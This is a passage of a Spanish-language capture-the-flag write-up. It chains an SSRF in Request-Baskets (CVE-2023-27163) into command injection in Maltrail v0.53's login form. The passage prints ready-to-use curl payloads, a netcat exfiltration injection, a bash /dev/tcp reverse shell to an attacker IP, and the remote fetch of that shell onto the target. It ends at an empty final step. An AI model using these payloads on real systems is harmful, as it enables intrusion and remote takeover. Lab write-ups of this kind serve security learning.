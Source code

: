 ### Exploting CVE-2023-27163
Suponiendo que esos dos puertos filtrados son servicios internos de la máquina, procedo con la explotación del **SSRF**.

> [PoC of SSRF on Request-Baskets (CVE-2023-27163)](https://github.com/entr0pie/CVE-2023-27163)

Según este PoC podemos obtener un **SSRF** enviando una petición especial a la **API** de este software para crear un 'basket' que redirija al recurso interno que queramos.
Desmembrando el exploit todo se reduce a este comando:
```bash
curl -s -X POST 10.10.11.224:55555/api/baskets/z3r0byte -H "Content-Type: application/json" -d '{"forward_url":"http://127.0.0.1:8338","proxy_response":true,"insecure_tls":false,"expand_path":true,"capacity":250}'
```
Nótese que en el campo `forward_url` puse el recurso interno a donde quería acceder, en este caso al puerto filtrado `8338`.
Si hacemos la petición y accedemos al basket (`z3r0byte` en este caso) desde el navegador, deberíamos ver el recurso interno:

![image](https://github.com/z3rObyte/z3rObyte.github.io/assets/67548295/9a53ee9b-921f-461b-82cf-e92cbca8f336)

Y vemos que el servicio interno que está alojado en el puerto 8338, solo accesible desde localhost (y por nosotros ahora :b), se trata de `Maltrail`

### Exploiting Maltrail through SSRF
Podemos ver la versión del `Maltrail` alojado, _v0.53_.

Si buscamos vulnerabilidades para esta versión en google nos da una alegría:
![image](https://github.com/z3rObyte/z3rObyte.github.io/assets/67548295/bb7ee0c5-0195-4d63-a099-6f2fc4a9312a)

Al parecer esta versión es vulnerable a un RCE, eso significa que pa dentro que nos vamos.

La exploitación es tan simple que no hace falta ni utilizar exploits ya hechos, el **RCE** existe el parámetro `username` del panel de login.
Lo podemos explotar con este simple one-liner
```bash
curl 10.10.11.224:55555/z3r0byte/login -d 'username=$(id|nc LHOST LPORT)'
```
![image](https://github.com/z3rObyte/z3rObyte.github.io/assets/67548295/0b2b43a3-98ca-418b-a393-d9703a649b3f)

Visto esto ya podemos acceder a la máquina con una reverse shell (dado que mi sistema tambien ejecuta el comando que pongo, tengo que hacerlo de esta manera):

1. Creamos un index.html con el contenido de la reverse shell:
```bash
❯ echo "bash -i >& /dev/tcp/10.10.16.5/4444 0>&1" > index.html
```
2. Creamos un servidor HTTP rápido con `python3`:
```bash
❯ authbind python3 -m http.server 80
```
3. Con el RCE hacemos que la máquina víctima descargue el index malicioso:
```bash
curl 10.10.11.224:55555/z3r0byte/login -d 'username=;$(curl 10.10.16.5 -o /tmp/shell.sh)'
```
* Vamos a recibir dos peticiones, la de nuestra máquina y la de la máquina víctima
4. Borramos el archivo que se descargó en nuestra máquina
```bash
❯ ls -la /tmp/shell.sh
.rw-r--r-- z3r0byte z3r0byte 41 B Sun Jan  7 19:33:38 2024  /tmp/shell.sh❯ rm /tmp/shell.sh
❯ rm /tmp/shell.sh
```
5. Nos ponemos en escucha con netcat
```bash
❯ nc -lvnp 4444
```
6. Hacemos que se ejecute el archivo malicioso en la máquina víctima
```bash
```